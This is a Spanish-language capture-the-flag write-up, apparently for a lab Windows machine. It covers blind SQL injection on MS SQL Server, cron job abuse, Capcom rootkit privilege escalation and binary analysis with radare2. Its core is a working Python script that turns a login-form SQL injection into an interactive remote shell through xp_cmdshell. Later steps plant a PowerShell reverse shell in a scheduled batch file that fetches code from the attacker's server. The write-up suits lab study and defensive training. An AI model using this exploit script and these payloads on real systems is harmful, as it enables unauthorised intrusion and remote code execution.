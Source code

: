 ## Tecnicas utilizadas
-   Advanced SQL Injection [SQLI] - MS SQL Server 2014 [Bypass Protection] [Python Scripting] [RCE]
-   Abusing Cron Jobs
-   Capcom Rootkit Privilege Escalation
-   Binary and DLL Analysis in order to get root.txt [Radare2]
## Procedimiento
- Fuzzing web
- Vhost Fuzzing
- Intentar activar el xp_cmdshell(Todo esto a ciegas, ya que no hay ningun tipo de output que nos confirme nada)
- Crear una tabla para operar con los comandos: `;create table rce(output varchar(1024));`. Para confirmar que ha funcionado: `;insert into rce(output) exec xp_cmdshell "whoami";` y verificamos el output de la tabla que hemos creado(intentamos bypassear la medida de seguiridad implementada que no nos permite colocar "xp_cmdshell"): `union select <sequency> (select top 1 output from rce)`
- Para optimizar mejor la busqueda del output, crearemos mejor una tabla que contenga una primary key incremental: `;create table rce(id int identity(1,1) primary key, output varchar(1024));`. Tambien podemos vaciar la tabla para organizarnos mejor: `;truncate table rce;`.
- Una vez teniendo la tabla que autoincremenda con cada insert, podemos filtrar con un where y colocando el identificador: `;union select <sequency>,(select top 1 output from rce where id=$num),6-- -;`
python scripting ↓
```python 

#!/usr/bin/python3

from pwn import *
import requests, signal, pdb, time
from base64 import b64decode  

def def_handler(sig,frame):

	print("\n\n[!] Saliendo...\n")
	dropTable()
	sys.exit(1)
	
#ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales 
main_url = "<url>"

def createTable():
	
	post_data = {
		"username" : "admin",
		"password" : "admin",
		"logintype" : "2;create table rce(id int identity(1,1) primary key, output varchar(1024));-- -",
		"rememberme" : "ON",
		"B1" : "LogIn"
	}
	# Creating rce table 
	r = requests.post(main_url, data=post_data)

	

def executeCommand(command):
	
	post_data = {
		"username" : "admin",
		"password" : "admin",
		'logintype' : '2;insert into rce(output) exec Xp_cMdShEll "%s";-- -' % command,
		"rememberme" : "ON",
		"B1" : "LogIn"
	}
	# Execution command 
	r = requests.post(main_url, data=post_data)

	post_data = {
		"username" : "admin",
		"password" : "admin",
		'logintype' : '2 union select 1,2,3,4,(select top 1 id from rce order by id desc),6 -- -',
		"rememberme" : "ON",
		"B1" : "LogIn"
	}
	# Get ID top counter
	r = requests.post(main_url, data=post_data, allow_redirects=False)

	topIdCounter = b64decode(r.headers['Set-Cookie'].split(";")[0].replace("Email=", "").replace("%3D", "=")).decode()

	for i in range(1, int(topIdCounter)):

		post_data = {
			"username" : "admin",
			"password" : "admin",
			'logintype' : '2 union select 1,2,3,4,(select output from rce where id=%d),6 -- -' % i,
			"rememberme" : "ON",
			"B1" : "LogIn"
		}

		r = requests.post(main_url, data=post_data, allow_redirects=False)
		
		output = b64decode(r.headers['Set-Cookie'].split(";")[0].replace("Email=", "").replace("%3D", "="))

		if b"\xeb\xde\x94\xd8" not in output:
			print(output.decode())
			
	truncateTable()

def dropTable():
	
	post_data = {
		"username" : "admin",
		"password" : "admin",
		'logintype' : '2;drop table rce;-- -',
		"rememberme" : "ON",
		"B1" : "LogIn"
	}
	# Droping rce table
	r = requests.post(main_url, data=post_data)

def truncateTable():
	
	post_data = {
		"username" : "admin",
		"password" : "admin",
		'logintype' : '2;truncate table rce;-- -',
		"rememberme" : "ON",
		"B1" : "LogIn"
	}
	# truncating rce table
	r = requests.post(main_url, data=post_data)
	
if __name__ == "__main__":

	#createTable()

	while True:
		command = input("> ")
		command = command.strip("\n")

		executeCommand(command)

		print("\n")
	


```

- Entablar una reverse shell con el repositorio de nishan(con powershell)
- Vaciar el contenido del archivo encontrado *Clean.bat* e incrustar el codigo que utilizamos para entablarnos la revershell con el *sqli*
- Meter en el script el comando que descargamos desde nuestra maquina previamente, con `cmd /c "type C:\Users\sqlserv\command >> clean.bat"`
- Abrir un servidor en python3 para que el script que se ejecuta en intervalos definidos de tiempo, descargue el archivo y ejecute el script en PS. Paralelamente estar en escucha con NetCat.
- Explotar el **Capcom rootkit** con el exploit de github de *FuzzySecurity*
	1. Filtrar por todos los archivos que terminen por ".ps1" `find . -name \*.ps1`
	3. `for file in $(find . -name \*.ps1); do cat $file; echo; done > ../capcom.ps1`
	4. Podemos ver las funciones que el script que compactamos nos ofrece `cat capcom.ps1 | grep -i function`
	5. Interpretamos con PS el script(lo podemos descargar e interpretar o interpretarlo de una con PS)
- Descargamos el archivo a nuestra maquina atacante para analizarlo
- Tratamos el archivo en b64 para paarlo al formato original `cat data | tr -d "\n" | base64 -d | sponge <samefile>`
- Pasamos el archivo por **radare2**. Una vez en radare2 con el archivo, colocamos *aaa* para analizar todas las funciones y con *afl* listamos todas las funciones. Usamos *s main* para sincronizarnos con la funciones main. Y con *pdf* podemos ver a bajo nivel lo que esta sucediento
- Tambien nos traemos el archivo .dll a nuestra maquina para analizarlo. Hacemos el mismo procedimiento con radare2 para inspeccionar todas las funciones y mirar sys.check.dll_check
- Pasamos la cadena encontrada por cyberchef con el decode de *xor bruteforce*